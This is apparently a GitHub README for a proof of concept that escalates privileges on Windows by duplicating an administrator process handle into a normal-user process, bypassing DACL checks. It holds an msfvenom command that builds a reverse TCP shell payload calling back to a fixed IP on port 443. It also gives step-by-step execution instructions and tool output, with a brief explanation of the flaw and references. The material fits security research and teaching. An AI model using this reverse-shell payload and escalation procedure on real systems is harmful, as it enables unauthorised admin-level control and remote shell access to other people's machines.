 # BypassDACL

PoC for Bypassing DACL in Windows using DuplicateHandle.

Read more about this code: [Security of Handles in Windows](https://glory-part-39d.notion.site/Security-of-Handles-in-Windows-caaa2531a0914ef0b7779ea366f69bcb).

This code demonstrates how to create a security hole in your program, potentially leading to privilege escalation.

**Note: This is a Proof of Concept (PoC) and is for educational purposes only.**

## Running the Code

### Generate Shellcode for AttackerPE.exe

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.148 LPORT=443 -f c -b \x00\x0a\x0d
```

Copy the generated shellcode into `AttackerSource.cpp` and compile it.
```C
unsigned char shellcode[] = "";
```

### Steps to Execute

1. Run `powershell.exe` with Admin privileges.
2. Run `notepad.exe` with normal user privileges.
3. Run `vendor.exe` with Admin privileges.

```sh
Vendor.exe
Enter the Process name that you want to get Handle (e.g., powershell.exe): powershell.exe
Enter the target Process name (e.g., notepad.exe): notepad.exe
[+] SeDebugPrivilege enabled successfully.
[+] PID of powershell.exe: 8420
[+] Handle of powershell.exe is OK
[*] Run Process Explorer and find handles of notepad.exe, then find a handle named powershell.exe
and write the address of the handle in AttackerPE code...
[*] Sleep(INFINITE). After running AttackerPE.exe, press Ctrl+C to exit.
```

4. Open **procexp64.exe** and copy the address of the handle (powershell.exe) from **notepad.exe**.
5. Run `AttackerPE.exe` with normal user privileges.

```sh
AttackerPE.exe <address> <process name>
AttackerPE.exe 0xFFFFB08D881EE080 notepad.exe
```

## Duplicate Handle and Bypass DACL Check

Duplicating a handle in the source process requires that the source process already has that handle, meaning the **DACL was checked** once during the handle's **Creation/Opening**. When duplicating a handle from the source to the destination process, no security checks are performed, It means that even the SID of the destination process is not checked with DACL.

## **References**

 [MSDN_DuplicateHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-duplicatehandle)

[security-briefs-exploring-handle-security-in-windows](https://learn.microsoft.com/en-us/archive/msdn-magazine/2000/march/security-briefs-exploring-handle-security-in-windows)

[process-security-and-access-rights](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)

Windows Internals Books

Windows Kernel Programming Book
